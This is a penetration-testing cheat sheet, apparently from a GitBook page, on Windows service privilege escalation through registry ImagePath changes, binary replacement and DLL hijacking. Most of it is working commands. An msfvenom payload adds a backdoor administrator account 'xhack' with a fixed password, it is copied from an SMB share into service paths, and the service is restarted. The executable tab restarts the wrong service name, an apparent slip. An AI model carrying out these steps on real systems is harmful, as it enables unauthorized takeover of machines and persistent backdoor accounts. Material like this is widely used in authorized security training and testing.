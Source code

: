 ```bash
# ----create payload 
msfvenom -p windows/exec CMD='net user xhack SecurePass1337 /add; net localgroup administrators xhack /add' -f exe-service -o payload.exe
# place payload in writable folder 
cd C://Temp
cp //192.168.0.0/share/tmp/payload.exe .
# change registry path to executable (regsvc is an example) 
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\payload.exe /f
# restart service 
sc start regsvc
```
{% endcode %}
{% endtab %}

{% tab title="Executable" %}
{% code overflow="wrap" %}
```bash
# change Authenticated Users for any user/group that we want to escalate to
accesschk.exe /accepteula -uwcqv "Authenticated Users" *
# for each service, check  the permissions of the executable, if you have write / full access, overwrite executable with own payload
accesschk64.exe -wvu  "C:\Program Files\File Permissions Service"
# Query the service to see if it runs with SYSTEM/LocalSystem privileges (SERVICE_START_NAME).
sc qc filepermsvc
# Create your payload
msfvenom -p windows/exec CMD='net user xhack SecurePass1337 /add; net localgroup administrators xhack /add' -f exe-service -o payload.exe
# place payload in writable folder (in the example below, filepermservice.exe is the vulnerable executable)
cd "c:\Program Files\File Permissions Service"
cp //192.168.194.141/share/tmp/payload.exe .
mv payload.exe filepermservice.exe
# restart service 
sc start regsvc
```
{% endcode %}
{% endtab %}

{% tab title="DLL Hijacking" %}
<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"># Service DLL Hijacking (instead of overwriting the binary, we merely overwrite a DLL the service binary uses)
1 - Search a service.exe that is non-standard (usually) and even if we cannot modify it, look at it with Process Monitor
Filter > Operation > CreateFile
Filter > Result > NAME NOT FOUND
$env:path # to check the PATH and see if DLL search follows that order
# Important to find a DLL path that is writable for us

Standard DLL search order
1. The directory from which the application loaded. 
2. The system directory. 
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory. 
6. The directories that are listed in the PATH environment variable.
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
# If we cannot replace the binary or run Process Monitor on the target, copy/install the binary on our local machine and start Process Monitor there